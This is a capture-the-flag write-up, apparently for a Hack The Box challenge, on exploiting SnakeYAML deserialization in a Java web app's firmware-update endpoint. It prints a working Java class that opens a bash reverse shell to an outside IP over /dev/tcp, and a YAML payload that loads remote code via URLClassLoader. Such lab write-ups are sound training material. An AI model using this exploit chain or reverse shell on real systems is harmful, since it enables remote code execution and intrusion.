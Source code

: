 ### Challenge description

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/4d31fc8b-b075-4764-ad6f-cbcff75d109b)

This page greets us with some IOT looking stuff. Something about water levels in some tanks:

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/1b5e8ee1-8c68-4bc8-8f4d-e5b104ea9d96)

It gives us the option to do a Firmware Update based on user inputted configuration. Uh oh!

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/9dda62e7-3d37-4a6e-bc86-94e49cf7eb24)

Looking through the source code, specifically the `pom.xml` file where all the dependencies are for Java based web applications, we find it is using `snakeyaml`:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/5a7638b9-9a46-4d87-88f0-df3317c09995)

There are some well-known exploits for yaml deserialization, including for snakeyaml. A good resource that I used can be found here: https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858

I tested the payload from the blog trying to get a callback to myself:
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/8eff38ef-a129-4c0b-96cd-0e15b5cec67d)

Even though it says that "an error occured", we do get a callback:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/748899c8-d335-4585-b2a6-e07b35b3219c)

In this case all we need is to setup our files in the correct folders and with the correct names.

#### Step 1: Create exploit.java with a reverse shell payload:

```java
package snakeyaml;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class exploit implements ScriptEngineFactory {

    public exploit() {
        try {
            Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/10.10.14.76/1338 0>&1");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```
#### Step 2. Compile `exploit.java` and put the resulted `exploit.class` file in a folder called `snakeyaml`. This is done automatically with the syntax below because I specify the package in the code above.

```bash
javac -d . exploit.java
```

#### Step 3: Create folder `META-INF` and inside it another folder called `services`. Create a file called `javax.script.ScriptEngineFactory` with the content being: `snakeyaml.exploit`

#### Step 4: Host these on port 80 or whatever port you will mention in your yaml payload on the "Firmware Update".
#### Step 5: Send the payload below in the `/update` endpoint:

```xml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.76/"]
  ]]
]
```
Once we do that, we can see we get a callback on our netcat listener and can read the flag.
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/d4f9acc4-8f36-4b7c-acbb-1b53cec9e1de)

HTB{r1d3_th3_sn4k3}

